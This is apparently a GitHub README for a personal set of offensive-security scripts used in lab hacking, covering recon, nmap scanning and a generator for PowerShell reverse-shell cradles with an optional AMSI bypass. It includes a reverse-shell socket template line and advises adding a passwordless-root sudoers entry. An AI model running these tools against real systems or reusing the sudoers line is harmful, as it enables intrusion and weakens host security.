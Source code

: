# scripts

Here are a collection of scripts I use regularly for offensive security-related tasks.

![](img/recon_setup_demo.gif)

## Install

```bash
# Install dependencies (kali only)
sudo apt install python3-impacket python3-libtmux python3-requests python3-rich python3-urllib3 python3-watchdog

# Clone repo and cd
sudo git clone https://github.com/Mojo8898/scripts.git /opt/scripts
cd /opt/scripts

# Set standalone scripts as to be executable
sudo chmod +x recon_setup/recon_setup.py cradle_gen.py scan_machine.py scan_targets.py

# Create symbolic links to add standalone scripts to $PATH (pipx compatibility coming soon?)
ln -s /opt/scripts/recon_setup/recon_setup.py /usr/local/bin/recon_setup.py
ln -s /opt/scripts/scan_machine.py /usr/local/bin/scan_machine.py
ln -s /opt/scripts/scan_targets.py /usr/local/bin/scan_targets.py
ln -s /opt/scripts/cradle_gen.py /usr/local/bin/cradle_gen.py
```

Some automated scripts including the built-in nmap wrapper require sudo to run properly. Either execute scripts as root or add the following line to the bottom of your `/etc/sudoers` file using the command `sudo visudo` to prevent password prompts.

```
kali    ALL=(ALL) NOPASSWD: ALL
```

## Example Usage

### recon_setup.py

```bash
# Just configure working environment
recon_setup.py -i 10.10.10.10 testing ~/htb/competitive_Mojo098.ovpn

# Configure working environment and launch automated tasks
recon_setup.py -i 10.10.10.10 testing ~/htb/competitive_Mojo098.ovpn -a -u bob -p 'Password123!'

# Launch inside of exegol and utilize the HackTheBox CLI
recon_setup.py administrator -x --spawn administrator -a -u olivia -p ichliebedich
```

### scan_machine.py

```bash
scan_machine.py 10.10.10.10
```

### scan_targets.py

```bash
scan_targets.py external_hosts.txt
```

### cradle_gen.py

```bash
cradle_gen.py 10.10.10.10 9001 -l
```

**Note:**
- To include an AMSI bypass with the Powercat cradle, create a file named amsi_bypass.txt in this project’s root directory. This file should contain the AMSI bypass code that will be prepended to the generated cradle.
- To include a raw socket PowerShell cradle, create a file named raw_socket.txt in this project’s root directory. Within this file, define the connection using Python’s string formatting placeholders for lhost and lport. For example:

```
System.Net.Sockets.TCPClient('{lhost}',{lport})
```
